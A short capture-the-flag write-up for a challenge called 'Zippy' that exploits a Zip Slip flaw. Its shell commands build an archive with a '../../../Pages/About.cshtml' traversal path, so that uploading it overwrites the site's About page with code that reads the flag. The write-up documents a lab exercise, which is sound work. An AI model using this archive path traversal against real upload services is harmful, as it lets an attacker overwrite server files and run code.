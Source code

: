 # Zippy

A Zip Slip Vulnerability, I opted to overwriting the About page with custom code that read the flag.

```shell
mkdir -p 1/2/3 && cd 1/2/3
zip ../../../about.zip ../../../Pages/About.cshtml
```

Upload `about.zip` and browse to `/About`.
